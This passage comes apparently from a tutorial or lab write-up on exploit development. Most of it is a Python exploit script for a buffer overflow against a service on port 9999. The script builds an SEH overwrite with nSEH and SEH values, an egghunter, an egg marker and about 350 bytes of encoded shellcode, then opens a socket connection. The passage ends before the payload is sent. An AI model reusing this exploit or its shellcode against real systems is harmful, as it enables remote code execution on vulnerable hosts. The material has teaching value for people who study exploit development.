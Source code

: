 ```terminal_session
"\xf8\xb7\x5e\xc6\xf8\xbe\x42\x51\xaf\x97\xb5\xa8\x25\x0a\xef"
"\x02\x5b\xd7\x69\x6c\xdf\x0c\x4a\x73\xde\xc1\xf6\x57\xf0\x1f"
"\xf6\xd3\xa4\xcf\xa1\x8d\x12\xb6\x1b\x7c\xcc\x60\xf7\xd6\x98"
"\xf5\x3b\xe9\xde\xf9\x11\x9f\x3e\x4b\xcc\xe6\x41\x64\x98\xee"
"\x3a\x98\x38\x10\x91\x18\x58\xf3\x33\x55\xf1\xaa\xd6\xd4\x9c"
"\x4c\x0d\x1a\x99\xce\xa7\xe3\x5e\xce\xc2\xe6\x1b\x48\x3f\x9b"
"\x34\x3d\x3f\x08\x34\x14";
```

So even by specifying an additional bad character, our payload remained the same size at 351 bytes. Let's now submit our final exploit code:
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

Seh = '\x2b\x17\x50\x62'
nSeh = '\x40\x40\x75\x04'  
egghunter = ("\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
"\xef\xb8\x45\x47\x47\x48\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7")

egg = 'EGGHEGGH'
shellcode = ("\xda\xc8\xd9\x74\x24\xf4\xb8\x86\xa2\x3b\x8b\x5a\x29\xc9\xb1"
"\x52\x31\x42\x17\x83\xc2\x04\x03\xc4\xb1\xd9\x7e\x34\x5d\x9f"
"\x81\xc4\x9e\xc0\x08\x21\xaf\xc0\x6f\x22\x80\xf0\xe4\x66\x2d"
"\x7a\xa8\x92\xa6\x0e\x65\x95\x0f\xa4\x53\x98\x90\x95\xa0\xbb"
"\x12\xe4\xf4\x1b\x2a\x27\x09\x5a\x6b\x5a\xe0\x0e\x24\x10\x57"
"\xbe\x41\x6c\x64\x35\x19\x60\xec\xaa\xea\x83\xdd\x7d\x60\xda"
"\xfd\x7c\xa5\x56\xb4\x66\xaa\x53\x0e\x1d\x18\x2f\x91\xf7\x50"
"\xd0\x3e\x36\x5d\x23\x3e\x7f\x5a\xdc\x35\x89\x98\x61\x4e\x4e"
"\xe2\xbd\xdb\x54\x44\x35\x7b\xb0\x74\x9a\x1a\x33\x7a\x57\x68"
"\x1b\x9f\x66\xbd\x10\x9b\xe3\x40\xf6\x2d\xb7\x66\xd2\x76\x63"
"\x06\x43\xd3\xc2\x37\x93\xbc\xbb\x9d\xd8\x51\xaf\xaf\x83\x3d"
"\x1c\x82\x3b\xbe\x0a\x95\x48\x8c\x95\x0d\xc6\xbc\x5e\x88\x11"
"\xc2\x74\x6c\x8d\x3d\x77\x8d\x84\xf9\x23\xdd\xbe\x28\x4c\xb6"
"\x3e\xd4\x99\x19\x6e\x7a\x72\xda\xde\x3a\x22\xb2\x34\xb5\x1d"
"\xa2\x37\x1f\x36\x49\xc2\xc8\xf9\x26\xcd\xcf\x92\x34\xcd\xce"
"\xd9\xb0\x2b\xba\x0d\x95\xe4\x53\xb7\xbc\x7e\xc5\x38\x6b\xfb"
"\xc5\xb3\x98\xfc\x88\x33\xd4\xee\x7d\xb4\xa3\x4c\x2b\xcb\x19"
"\xf8\xb7\x5e\xc6\xf8\xbe\x42\x51\xaf\x97\xb5\xa8\x25\x0a\xef"
"\x02\x5b\xd7\x69\x6c\xdf\x0c\x4a\x73\xde\xc1\xf6\x57\xf0\x1f"
"\xf6\xd3\xa4\xcf\xa1\x8d\x12\xb6\x1b\x7c\xcc\x60\xf7\xd6\x98"
"\xf5\x3b\xe9\xde\xf9\x11\x9f\x3e\x4b\xcc\xe6\x41\x64\x98\xee"
"\x3a\x98\x38\x10\x91\x18\x58\xf3\x33\x55\xf1\xaa\xd6\xd4\x9c"
"\x4c\x0d\x1a\x99\xce\xa7\xe3\x5e\xce\xc2\xe6\x1b\x48\x3f\x9b"
"\x34\x3d\x3f\x08\x34\x14")


buffer = 'A' * (3514 - len(egg + shellcode))
buffer += egg
buffer += shellcode
buffer += nSeh
buffer += Seh
buffer += egghunter
buffer += 'C' * (5012 - len(buffer))


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
```